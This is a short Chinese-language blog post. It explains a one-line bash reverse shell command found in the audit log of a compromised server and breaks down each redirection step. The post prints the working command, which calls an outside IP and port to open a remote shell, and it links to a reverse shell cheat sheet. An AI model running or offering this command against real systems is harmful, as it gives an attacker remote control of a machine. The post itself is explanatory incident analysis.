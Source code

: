 ```yaml
---
layout: post
title: 单行反弹 Shell 命令的理解
description: "单行反弹 Shell 命令的理解"
category: Shell
avatarimg:
tags: [Security, Linux, Shell, Bash]
duoshuo: true
---
```


有朋友说一台服务器被黑客入侵了。安全没做好！！！  
查看 bash 审计日志，发现黑客执行的相关命令，其中有一条反弹 Shell 的命令，在被黑的服务器上执行如下：

> 
bash -i >& /dev/tcp/173.208.201.162/9083 0>&1 &

执行后的效果就是黑客在自己的机器上利用 nc 等工具监听 9083 端口，不仅可以发送命令到被黑服务器上，命令的输出也会回显到黑客的机器上，  
整个表现就是被黑服务器的 Shell 反弹到黑客机器上了，和 SSH 远程登录一台服务器执行命令一样。

理解上面的单行命令，费了好半天，看来对 Bash Shell 的掌握还不够啊。

- 首先， bash -i 开启了 Shell 的交互模式，这样反弹 Shell 后，黑客可以和它交互；
- 然后是这段： `>& /dev/tcp/173.208.201.162/9083`，表示 bash 打开到远程目标 IP 端口的 TCP 连接，并将标准出重定向到远程目标 IP 端口上；
- 再然后是这段：0>&1，表示标准输入（这个标准输入是在远端执行的）也重定向到远程目标 IP 端口上？（PS: 这里我不是很好理解，如果高手看到请指点一下。）
- 最后的 & 表示后台运行，这样就相当于常驻后台的后门了。

我不得不感叹，第一个想出这种用法的人真是变态啊，算是奇技淫巧，对 Bbash Shell 和 TCP 的掌握很深入了。

**Refercences:**   
[交互式shell和非交互式shell](http://blog.csdn.net/trochiluses/article/details/13767669)  
[Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)  
[REVERSE SHELL WITH BASH](http://www.gnucitizen.org/blog/reverse-shell-with-bash/)  
[What is the difference between &> and >& in bash?](http://superuser.com/questions/335396/what-is-the-difference-between-and-in-bash)

